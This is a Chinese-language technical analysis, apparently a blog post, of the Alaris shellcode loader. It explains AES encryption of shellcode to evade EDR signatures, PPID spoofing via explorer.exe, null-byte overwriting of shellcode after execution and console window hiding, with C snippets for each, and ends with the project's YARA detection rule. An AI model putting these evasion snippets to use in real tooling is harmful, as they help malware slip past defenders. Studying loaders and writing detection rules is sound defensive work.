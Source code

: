 朴实无华的使用对称加密算法 AES- CBC 256 加密的 shellcode，密钥和 iv 都存在于代码中。主要是防止`xFC\xE8`、`\xFC\x48`等的特征被检测到。

在使用 stage payload 或者更小的 payload 时候，AES 加密算法足够绕过大多数的 EDR 系统。

PPID 欺骗
-------

Alaris 会创建一个子进程，通过进程替换技术执行 shellcode，但是此时进程的执行路径是`loader.exe -> mobsync.exe`，通过 ppid 欺骗，将它变得看起来是自然产生，即`explorer.exe -> mobsync.exe`

```
// This is just directly stolen from ired.teamDWORD get_PPID() {    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);    PROCESSENTRY32 process = { 0 };    process.dwSize = sizeof(process);    if (Process32First(snapshot, &process)) {        do {            if (!wcscmp(process.szExeFile, L"explorer.exe"))                break;        } while (Process32Next(snapshot, &process));    }    CloseHandle(snapshot);    return process.th32ProcessID;}// Mask the PPID to that of explorer.exeHANDLE explorer_handle = OpenProcess(PROCESS_ALL_ACCESS, false, get_PPID());UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &explorer_handle, sizeof(HANDLE), NULL, NULL);
```

执行后覆盖自身 shellcode
-----------------

在执行 shellcode 的 10s 后，会用空字节覆盖自身。

```
// Overwrite shellcode with null bytesSleep(10000);uint8_t overwrite[500];NtWriteVirtualMemory(hProcess, mem, overwrite, sizeof(overwrite), 0);
```

但是这个时间选择....

可以麻烦一点，在 shellcode 中进行处理，执行完后将自身清除。很简单，获取下执行时候的 eip，向上回溯找到首位置就好了 - =。

隐藏启动窗口
------

这是它 readme 中没有提到的一个小点，但确非常有效

```
ShowWindow(GetConsoleWindow(), SW_HIDE);
```

很多杀毒对 DOS 程序会比较放松，对窗口程序比较敏感，通过这个也可以隐藏 DOS 程序。

查杀规则
----

官方的 github 提供了一个查杀的 yara 规则

```
import "pe"rule alaris {    meta:        description = "Find all stock Melange Loaders"        author = "Joshua Faust"        date = "2020/10/14"    strings:        $ = "[!] ERROR" fullword ascii wide	$ = "C:\\Windows\\System32\\mobsync.exe" fullword wide        $ = "gexplorer.exe" fullword wide        $ = { 70 76 20 f2 3f 4c 4c 10 45 fb 50 93 d8 d1 c9 fb 6c 30 45 88 dd b2 f4 af 9c 1c 22 13 26 67 24 bd }        $ = { 89 54 7f 64 c0 ce 3a 44 f0 ee af ?? a8 dc 6b 65 }    condition:    	 pe.is_pe and 3 of them}
```
